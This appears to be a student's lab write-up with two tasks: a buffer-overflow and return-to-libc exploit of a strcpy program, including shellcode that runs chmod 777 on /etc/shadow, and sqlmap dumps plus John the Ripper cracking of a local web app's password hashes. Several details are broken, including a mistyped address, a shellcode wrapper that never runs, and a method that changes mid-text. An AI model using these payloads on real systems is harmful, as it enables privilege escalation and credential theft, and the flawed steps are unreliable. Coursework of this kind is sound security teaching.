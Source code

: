 # TangTamNhu
# TangTamNhu
# Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  
Description text (optional)
- We'll create 2 file `taskbuffer.c` and `shellcode.c` that contains 2 code content above
- Here is the stack frame `taskbuffer.c` program:
![stackframe](image-1.png)

- Compile `taskbuffer.c` program and `shellcode.c` program to executable code.
      
![img0](image-2.png)

- We will use Code Insert to insert shellcode directly into the program.
- We will create a payload that includes:
- First 16 bytes to fill the buffer.
- The shellcode address to override the program's return address.
- Use an older bash and turn off randomly given stack value.

![img1](image-3.png)

- Create environmet variable `nhu` with `export`
  
![img2](image-4.png)

- We need to find the address of `system`, `exit` and `nhu` variable and load `taskbuffer.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `nhu`: `0xffffde58` will be inserted with format `\x58\xde\xff\xff`
 
![img3](https://github.com/user-attachments/assets/cfe172ed-b234-4c03-8190-4f101d198441)

- Examine the stack frame. We need to add 20 bytes of padding, followed by the system address (4 bytes), exit (4 bytes), and preload (4 bytes). Thus, this is our directive:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x58\xde\xff\xff')")
```
![frame-system](https://github.com/user-attachments/assets/200582bf-198b-48b6-8522-e91b596af9ac)
![img4](https://github.com/user-attachments/assets/7eda45ff-b92b-43a1-8199-a9f8d24dd397)


output screenshot (optional)

- Before
  
![img5]()

- After

![win]()


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: 
- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --batch
```
![sql2](image-5.png) 

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: 
- Use the command below to get tables
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --tables --batch

```
![sql3](image-6.png)

- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dump --batch
```
![sql4](image-8.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- We already dumpped and stored the hashed password to a file for further exploit.
- To identity the hash algorithm, we will use hashid which is a library in python (hashid -mj hash_pw.txt)
![alt text](image-13.png)
- According to Hashid, john, notably the raw-sha1 format, can be used to crack the encryption: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```
![alt text](image-11.png)
